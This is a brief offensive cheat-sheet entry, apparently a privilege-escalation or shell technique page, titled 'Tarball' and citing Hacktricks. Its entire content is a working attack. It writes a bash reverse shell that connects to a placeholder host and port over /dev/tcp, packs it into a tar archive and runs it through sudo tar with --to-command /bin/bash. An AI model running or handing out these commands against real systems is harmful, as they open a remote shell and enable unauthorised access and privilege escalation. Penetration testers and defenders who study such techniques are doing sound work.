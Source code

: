 # Tarball

```
$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<IP>/<PORT> 0>&1' > payload.sh
tar -cvf payload.tar payload.sh
sudo -u $USER tar -xvf payload.tar --to-command /bin/bash
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/shells/shells/linux.html)